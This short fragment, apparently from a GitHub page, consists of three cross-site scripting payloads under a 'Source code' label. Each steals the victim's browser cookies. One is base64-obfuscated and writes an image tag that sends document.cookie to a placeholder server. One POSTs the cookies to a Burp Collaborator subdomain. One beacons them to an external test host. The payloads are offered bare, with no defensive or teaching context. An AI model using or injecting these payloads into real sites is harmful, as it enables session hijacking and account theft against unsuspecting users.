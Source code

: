 ```
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>

<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>

<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```

